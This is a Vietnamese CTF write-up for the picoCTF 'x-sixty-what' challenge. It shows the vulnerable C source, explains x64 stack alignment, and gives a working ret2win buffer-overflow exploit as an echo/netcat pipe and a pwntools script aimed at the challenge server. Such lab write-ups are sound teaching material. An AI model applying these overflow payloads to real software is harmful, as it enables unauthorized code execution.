

# x-sixty-what

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi, stack alignment

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

```

b) Nhận xét

- Ta chỉ cần ghi đè địa chỉ trả về vào hàm flag, nhưng nếu vậy thì stack sẽ không được căn chỉnh (xem write-up bài clutter-overflow) do câu lệnh assembly đầu tiên của hàm là push rbp. Khi push rbp thì rsp cũng bị thay đổi thêm 8 byte, do đó rsp không chia hết  cho 16 nữa.



## 2. Ý tưởng khai thác

- Thay vì nhảy vào câu lệnh đầu tiên (0x401236) thì ta nhảy vào lệnh thứ ba (sau lệnh push), khi đó rsp vẫn chia hết cho 16 do hàm trước đó là hàm vuln đã căn chỉnh stack sẵn. Địa chỉ của câu lệnh thứ ba là 0x40123b


## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Dùng công cụ để tìm offset, lần này thay vì quan sát RIP thì ta quan sát RBP vì RBP không thay đổi trong quá trình thực hiện hàm và từ RBP có thể xác định được offset với Return address vì RBP luôn nằm ở dưới Return address (xem cấu trúc stack ở các bài trước)


- Offset đối với RBP là 64, vậy offset đối với Return address là 64 + 8 = 72 byte

b) Bước 2: Viết payload

- Payload cần dùng là: 72 ký tự padding +  “\x3b\x12\x40”

c) Bước 3: Truyền payload

- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3\x3b\x12\x40
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3\x3b\x12\x40"; cat) | nc saturn.picoctf.net 56006
```


- Cách 2: dùng file thực thi
  + Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 56006)
payload = b'a'*72 + p64(0x40123b)

p.sendline(payload)
p.interactive()
```


## 4. Kết luận

- Với những bài x64 thì chú ý stack alignment, nếu muốn dùng ret2win thì nên nhảy vào câu lệnh sau push
